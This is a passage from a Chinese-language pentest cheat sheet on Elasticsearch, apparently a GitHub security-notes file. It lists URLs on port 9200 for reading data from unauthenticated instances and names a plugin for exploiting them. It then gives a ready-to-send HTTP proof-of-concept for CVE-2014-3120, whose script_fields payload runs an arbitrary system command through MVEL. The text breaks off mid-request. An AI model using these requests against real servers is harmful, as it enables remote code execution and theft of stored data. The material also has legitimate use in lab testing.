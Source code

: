 **未授权访问漏洞**

- `http://[ip]:9200`
- `http://[ip]:9200/_plugin/head/` web 管理界面
- `http://[ip]:9200/hello/_search?pretty&size=50&from=50`
- `http://[ip]:9200/_cat/indices`
- `http://[ip]:9200/_river/_search` 查看数据库敏感信息
- `http://[ip]:9200/_nodes` 查看节点数据
- `http://[ip]:9200/_cat/indices?v` 查看当前节点的所有 Index
- `http://[ip]:9200/_search?pretty=true` 查询所有的 index, type
- [Elasticvue](https://chrome.google.com/webstore/detail/elasticvue/hkedbapjpblbodpgbajblpnlpenaebaa?hl=en-US) - 进行未授权访问漏洞利用的插件

**CVE-2014-3120 ElasticSearch 命令执行漏洞**
- 描述

    老版本 ElasticSearch 支持传入动态脚本 (MVEL) 来执行一些复杂的操作,而 MVEL 可执行 Java 代码,而且没有沙盒,所以我们可以直接执行任意代码.

- 影响版本
    - ElasticSearch 1.1.1

- POC | Payload | exp

    来源: [ElasticSearch 命令执行漏洞 (CVE-2014-3120) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/)

    首先,该漏洞需要 es 中至少存在一条数据,所以我们需要先创建一条数据:
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
    "name": "test"
    }
    ```

    然后,执行任意代码:
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 343

    {
        "size": 1,
        "query": {
        "filtered": {
            "query": {
            "match_all": {
            }
            }
        }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }